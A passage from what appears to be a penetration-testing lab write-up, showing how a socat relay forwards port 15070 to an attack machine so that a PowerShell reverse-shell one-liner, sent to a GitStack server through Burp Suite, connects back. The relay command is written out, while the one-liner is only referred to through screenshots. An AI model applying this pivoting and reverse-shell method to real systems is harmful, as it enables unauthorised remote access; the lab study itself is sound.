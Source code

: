 Results:

![Untitled](Github%20ser%20a938a/Untitled%2011.png)

Now that we opened the port in the firewall, we can start listening with socat:

```bash
./socat tcp-l:15070 tcp:10.50.55.63:443 &
```

Results:

![Untitled](Github%20ser%20a938a/Untitled%2012.png)

Now I  could start listening on port 443 on my attack machine and socat will forward anything incoming on port 15070 to my ip. This will eventually catch the reverse shell.

Entering the powershell oneliner in burpsuite + encoding it so the webserver can understand it:

- Notice the IP of the webserver (10.200.57.200)
- And notice the port (15070)

![Untitled](Github%20ser%20a938a/Untitled%2013.png)

Sending the request to the GitStack server and receiving a reverse shell on our attack machine:

![Untitled](Github%20ser%20a938a/Untitled%2014.png)

---

## 3.0 Getting GUI access with WinRM
